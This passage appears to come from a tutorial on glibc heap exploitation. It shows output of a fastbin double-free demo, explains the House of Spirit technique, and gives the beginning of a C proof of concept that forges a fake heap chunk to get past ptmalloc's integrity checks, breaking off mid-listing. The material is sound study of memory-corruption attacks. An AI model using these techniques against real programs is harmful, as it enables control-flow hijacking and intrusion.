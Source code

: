 Outputs:

    # ./fastbin_dup
    1st malloc(8): 0x9214008
    2nd malloc(8): 0x9214018
    3rd malloc(8): 0x9214028
    Freeing the first one...
    So, instead, we'll free 0x9214018.
    Now, we can free 0x9214008 again, now it's head of free list.
    Now the free list has [ 0x9214008, 0x9214018, 0x9214008 ]
    If we malloc 3 times, we'll get 0x9214008 twice!
    1st malloc(8): 0x9214008
    2nd malloc(8): 0x9214018
    3rd malloc(8): 0x9214008

As expected, the chunk `0x9214008`, after being freed twice, was subsequently re-allocated twice.




## The House of Spirit

A clever heap exploit, that builds up a *write to anywhere* primitive, by crafting a fake heap chunk and stores it back into fastbins via a `free()`. Later, the specially crafted fake chunk is is allocated back to the vulnerable program through a subsequent `malloc()` call. Control flow can be hijacked if the code that uses the second `malloc()'ed` fake chunk, attempts to modify the user data within the fake heap chunk, which by design is laid out across stack memory (@phrack).

To add a complication, `ptmalloc` performs an integrity check, which must be satisified:

    if (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
    || __builtin_expect (chunksize (chunk_at_offset (p, size)) 
                                    >= av->system_mem, 0))

In order to bypass this check, the fake chunk's `size`, and the `size` of its the next chunk must be set. Below is a slightly modified version of @how2heap, which is effective against the latest version of glibc (2.29) as of October 2019:


```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "Setup pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (size %lu) holds two chunks\n",
		sizeof(fake_chunks));

	fprintf(stderr, "1st at %p and 2nd at %p\n",
		&fake_chunks[1], &fake_chunks[9]);
	
	fake_chunks[1] = 0x40; // this is the size

	// fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

	fprintf(stderr, "Set pointer to address of user data in fake first chunk, %p\n",
		&fake_chunks[1]);

```